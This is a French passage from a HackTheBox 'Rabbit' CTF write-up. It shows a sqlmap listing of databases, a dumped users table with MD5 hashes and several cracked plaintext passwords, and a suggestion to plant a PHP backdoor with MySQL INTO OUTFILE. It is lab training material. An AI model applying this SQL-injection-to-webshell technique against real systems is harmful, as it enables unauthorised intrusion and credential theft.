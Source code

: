 Il apparaît assez vite que les requêtes sont exécutées avec l'utilisateur root de MySQL. On ne peut malheureusement pas dumper directement la base (via connexion au port 3306) car l'utilisateur est seulement autorisé à se connecter en local. Pas trop grave quand on a sqlmap sous la main.  

```plain
available databases [7]:
[*] complain
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] secret
[*] sys
```

On ne trouve rien d'intéressant dans *complain* mais la base *secret* nous apporte des hashs supplémentaires (sqlmap a cassé certains des hashs, j'ai édité les autres trouvés via [CrackStation](https://crackstation.net/)) :  

```plain
Database: secret                                                                                                                                                                                                  
Table: users
[10 entries]
+----------+-----------------------------------------------------+
| Username | Password                                            |
+----------+-----------------------------------------------------+
| Zephon   | 13fa8abd10eed98d89fd6fc678afaf94                    |
| Kain     | 33903fbcc0b1046a09edfaa0a65e8f8c (doradaybendita)   |
| Dumah    | 33da7a40473c1637f1a2e142f4925194 (popcorn)          |
| Magnus   | 370fc3559c9f0bff80543f2e1151c537 (xNnWo6272k7x)     |
| Raziel   | 719da165a626b4cf23b626896c213b84 (kelseylovesbarry) |
| Moebius  | a6f30815a43f38ec6de95b9a9d74da37 (santiago)         |
| Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls)    |
| Turel    | d322dc36451587ea2994c84c9d9717a1                    |
| Dimitri  | d459f76a5eeeed0eca8ab4476c144ac4 (shaunamaloney)    |
| Malek    | dea56e47f1c62c30b83b70eb281a6c39 (barcelona)        |
+----------+-----------------------------------------------------+
```

A ce stade, vu qu'on dispose des droits les plus importants de MySQL et qu'en plus j'ai aussi trouvé le DocumentRoot via un message d'erreur, on serait tenter de poser une backdoor PHP sur le système avec INTO OUTFILE ([voir Tales of pentest #1](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file)).  

![HackTheBox Rabbit CTF php file disclosing path](/assets/img/htb/rabbit_repo_error_path.jpg)
